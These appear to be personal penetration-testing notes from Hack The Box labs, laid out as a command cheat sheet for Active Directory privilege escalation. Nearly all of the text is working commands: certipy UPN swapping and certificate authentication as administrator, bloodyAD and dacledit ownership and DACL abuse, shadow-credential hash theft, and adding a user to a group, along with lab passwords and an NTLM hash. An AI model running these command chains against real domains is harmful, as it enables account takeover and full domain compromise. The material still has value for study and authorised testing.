 ![[Pasted image 20250324201145.png]]
- request certificate as ca_operator using the vulnerable template
- may need to try multiple times
```
certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41
```
![[Pasted image 20250324201255.png]]
- changing ca_operator UPN back to what it was
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
```
![[Pasted image 20250324201400.png]]
- keep syncing clock until it works
---
### Permission abuse
##### If user (ryan) has writeOwner permissions over another user (ca_svc), run these commands in fast sequence to get hash:
```
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```
```
dacledit.py  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
```
```
sudo ntpdate sequel.htb
```
```
certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```
![[Pasted image 20250320091606.png]]
- sets ryan as owner of ca_svc
- once owner, 2nd command gives ryan full control of ca_svc
- syncs time
- should return hash for ca_svc

##### If user (judith) has WriteOwner permissions over a group (management), which has GenericWrite over management_svc user:
```
bloodyAD -d certified.htb -u judith.mader -p judith09 --host 10.129.239.104 set owner "CN=Management,CN=Users,DC=certified,DC=htb" "CN=Judith Mader,CN=Users,DC=certified,DC=htb"
```
![[Pasted image 20250324194118.png]]
- set judith as owner of management group
```
python3 dacledit.py -dc-ip 10.129.239.104 -u certified.htb/judith.mader:judith09 -target-dn "CN=Management,CN=Users,DC=certified,DC=htb" -principal-dn "CN=Judith Mader,CN=Users,DC=certified,DC=htb" -action write -rights WriteMembers
```
![[Pasted image 20250324194201.png]]
- give judith WriteMember permissions over management group
```
bloodyAD -d certified.htb -u judith.mader -p judith09 --host 10.129.239.104 add groupMember "CN=Management,CN=Users,DC=certified,DC=htb" "CN=Judith Mader,CN=Users,DC=certified,DC=htb"
```
![[Pasted image 20250324194402.png]]
- add judith to management group